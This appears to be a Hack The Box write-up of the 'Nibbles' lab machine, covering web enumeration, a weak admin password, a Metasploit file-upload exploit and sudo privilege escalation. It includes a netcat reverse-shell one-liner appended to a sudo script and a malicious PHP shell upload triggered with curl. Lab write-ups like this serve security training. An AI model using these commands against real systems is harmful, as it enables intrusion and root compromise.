---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---

# Nibbles

## Summary

[Nibbles](https://app.hackthebox.com/machines/121) is an <mark style="color:green;">easy-rated</mark> box which serves as an accessible, introductory-level machine, likely marking the initial foray into practical penetration testing for many Hack The Box users. Upon conducting **directory busting** on the web server, a wealth of information surfaces, including a login portal. By experimenting with various **default or weak credential** combinations, we successfully breach the system as administrators. Consolidating our position involves capitalizing on a **known vulnerability** exploitable via **Metasploit**. Subsequently, by scrutinizing the compromised user's **sudo permissions**, we escalate our privileges, ultimately achieving full control over the system.

<table><thead><tr><th width="85" align="right">Step</th><th>Action</th><th>Tool</th><th>Gained</th></tr></thead><tbody><tr><td align="right">1</td><td>Web server enumeration</td><td><a href="../../tools/web/dirbusting/fuff.md">fuff</a></td><td>Directories, credentials</td></tr><tr><td align="right">2</td><td>Vulnerability search</td><td><a href="https://www.metasploit.com/">Metasploit</a></td><td>Foothold</td></tr><tr><td align="right">3</td><td>System enumeration</td><td><a data-footnote-ref href="#user-content-fn-1">LoTL</a></td><td>Host compromise</td></tr></tbody></table>

## Recon

### Port Scanning

Starting with our [usual port-scan](broken-reference), let us know that only 2 ports are listening on the box (Figure 1):

1. An SSH service (`22`) that might be the way to establish our foothold.
2. An HTTP web server (`80`) which probably represent the way to get some credentials.

```bash
nmap-scan.sh 10.10.10.75
Creating directory...
Performing initial scan...
Extracting ports...
Performing an aggresive scan on open ports...
All done! See results: less scans/aggressive_scan.nmap
```

<figure><figcaption><p>Figure 1: Services listening on the Nibbles machine.</p></figcaption></figure>

### Web Enumeration

Visiting the web server via our browser, we encounter an extremely simple web page with a `Hello world!` message (Figure 2).

<figure><figcaption><p>Figure 2: The web server's homepage.</p></figcaption></figure>

One of the first things in our [web checklist](../../tools/web/web-checklist.md) is to check the page's source code. By doing that with Burp Suite, we find a mention to the `/nibbleblog/` directory (Figure 3), which seems to be just an empty blog (Figure 4).

<figure><figcaption><p>Figure 3: Checking the home page's source code.</p></figcaption></figure>

<figure><figcaption><p>Figure 4: The <code>/nibbleblog/</code> directory.</p></figcaption></figure>

Checking what technologies this blog uses with [`whatweb`](../../tools/web/whatweb.md) we see that it sets the `PHPSESSID` cookie, thus, we can infer that is uses PHP.


```bash
whatweb http://10.10.10.75/nibbleblog/
http://10.10.10.75/nibbleblog/ [200 OK] Apache[2.4.18], Cookies[PHPSESSID], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.18 (Ubuntu)], IP[10.10.10.75], JQuery, MetaGenerator[Nibbleblog], PoweredBy[Nibbleblog], Script, Title[Nibbles - Yum yum]
```


## Foothold

### Directory Busting

Next, we can perform a directory search to see if `/nibbleblog` contains any interesting subdirectories. This reveals a lot of promising results (Figure 5).


```bash
ffuf -u http://10.10.10.75/nibbleblog/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -e .php -c -ac -ic
```


<figure><figcaption><p>Figure 5: Directory searching with <code>ffuf</code>.</p></figcaption></figure>

By visiting the directories, we find a lot of clues to move forward.

* `/admin.php` is a login form which we could try default credentials (e.g. `admin:admin`) or brute form with [`hydra`](../../tools/web/hydra.md#http)
* `/README` reveals the blog's version (`4.0.3`), its name (`Coffee`), and its release date (`2014-04-01`) which seems be to way outdated (the box was released in 2018).
* `/update.php` contain refers to `/content/private/config.xml` which looks like a configuration file and might contain credentials.

<figure><figcaption><p>Figure 6: Visiting the directories from our browser.</p></figcaption></figure>

### Weak Credentials

Let's start by trying default credentials. Using [`creds`](../../tools/web/creds.md) does not return anything, so we have to try some pairs manually. After failing with some, the `admin:nibbles` credentials seem to work (Figure 7).&#x20;

<figure><figcaption><p>Figure 7: Logging into the nibbleblog dashboard.</p></figcaption></figure>

### Known Vulnerabilities

In addition, searching for known vulnerabilities for "_Nibbleblog v4.0.3_" results in [this](https://www.exploit-db.com/exploits/38489) Metasploit module. Jumping into Metasploit, configuring and running the module gives us a meterpreter shell back through which we can read the user flag 🚩 (Figure 8).

```bash
# Launching metasploit
msfconsole -q
# Searching for the nibbleblog module
msf6 > search nibbleblog
# Using the module
msf6 > use 0
# Seeing its configuration options
msf6 exploit(multi/http/nibbleblog_file_upload) > show options
# Configuring the module
msf6 exploit(multi/http/nibbleblog_file_upload) > set password nibbles
msf6 exploit(multi/http/nibbleblog_file_upload) > set username admin
msf6 exploit(multi/http/nibbleblog_file_upload) > set rhosts 10.10.10.75
msf6 exploit(multi/http/nibbleblog_file_upload) > set lhost tun0
msf6 exploit(multi/http/nibbleblog_file_upload) > set targeturi /nibbleblog/
msf6 exploit(multi/http/nibbleblog_file_upload) > run
```

<figure><figcaption><p>Figure 8: Catching a meterpreter shell.</p></figcaption></figure>


Check the [Beyond Root](nibbles.md#beyond-root) section for another way of getting a reverse shell.


## Privilege Escalation

### Sudo Exploitation

One of the first things we always do upon establishing our foothold, is checking if the compromised user can run anything with elevated privileges (`sudo`) (Figure 9.2). In this case, the `nibbler` user seems to be able to execute `monitor.sh`, which is located within the `zip` file at its home directory (Figure 9.3-9.5).&#x20;

Next, we can generate (Figure 10) and append a one-liner reverse shell at the `monitor.sh` script (Figure 9.6), start a listener on our attack host (Figure 9.8), and then execute the script with `sudo` using its full path (Figure 9.9). Since, the script will run with elevated privileges, we will be able to catch a root shell and read the `root.txt` flag 🚩(Figure 9.10).&#x20;


```bash
# drop into a shell
meterpreter > shell
# check sudo permissions
sudo -l
# unzip the file
unzip personal.zip
# move into the script's directory
cd personal/stuff
# append the reverse shell code to the script
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.14.13 1337 >/tmp/f' >> monitor.sh
# execute the script as sudo
sudo /home/nibbler/personal/stuff/monitor.sh
```


<figure><figcaption><p>Figure 9: Exploiting <code>nibbler</code>'s permissions and reading the root flag.</p></figcaption></figure>

<figure><figcaption><p>Figure 10: Generating a one-liner bash reverse shell code.</p></figcaption></figure>

## Beyond Root

### Manual Foothold

Instead of using Metasploit, we can manually create a malicious PHP file containing reverse shell code and leverage one of the site's plugins to upload it. We can generate the code needed using [revshells](https://www.revshells.com/) (Figure 11) and then copy it locally to a file, e.g. `shell.php`.

<figure><figcaption><p>Figure 11: Generating reverse shell code.</p></figcaption></figure>

Next, we need to select a plugin, such as `My Image` (Figure 12), and upload `shell.php` through it (Figure 13).&#x20;

<figure><figcaption><p>Figure 12: Selecting a plugin to exploit.</p></figcaption></figure>

<figure><figcaption><p>Figure 13: Using the plugin to upload <code>shell.php</code>.</p></figcaption></figure>

We get multiple warning messages but we can safely ignore them and proceed on starting our listener. Finally, by calling our script via `curl` (or visiting the URL in the browser), we should be able to catch the reverse shell (Figure 14).

```bash
# Starting a listener to catch the reverse shell
sudo nc -lvnp 1337
# Sending a GET request pointing to the uploaded script
curl http://10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php
```

<figure><figcaption><p>Figure 14: Starting a listener and calling the uploiaded script.</p></figcaption></figure>

[^1]: Living of The Land
